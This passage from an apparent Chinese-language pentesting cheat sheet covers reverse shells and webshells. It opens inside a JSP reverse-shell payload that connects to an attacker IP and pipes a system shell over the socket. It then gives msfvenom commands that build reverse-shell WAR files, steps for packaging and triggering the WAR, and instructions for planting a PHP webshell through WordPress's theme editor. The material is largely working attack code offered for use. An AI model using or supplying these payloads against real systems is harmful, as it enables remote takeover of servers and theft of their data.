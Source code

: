 ```
    }
 
    try {
        Socket socket = new Socket( "192.168.119.128", 8081 ); // Replace with wanted ip and port
        Process process = Runtime.getRuntime().exec( shellPath );
        new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
        new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
        out.println("port opened on " + socket);
     } catch( Exception e ) {}


%>
</pre>
</body>
</html>
```

#### 用msf生成，并做成war包
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.131 LPORT=7777 -f war -o shell.war

msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.131 LPORT=4444 -f war -o jspshell.war
```
#### Linux java jsp打包war

1、检查jdk环境
```
java -version  [有java但是没有jar命令需要执行安装命令]
sudo apt install openjdk-17-jdk -y
sudo apt install default-jdk -y
```
2、打包
```
sudo jar -cvf shell.war *.jsp
```
#### 触发

```
http://xxx.com/war_name/jsp_name
```

## 链接webshell

### php利用页面

1、寻找可以创建或修改的php页面

```
appearance => editor
```

2、theme上传php页面文件
```
appearance => theme => add new

# 查找wordpress 404.php的位置：
这是编辑404页面时的url，其中有路径位置
http://192.168.56.103/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen

根据以上url，得出404的位置是
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php
```
### 蚁剑
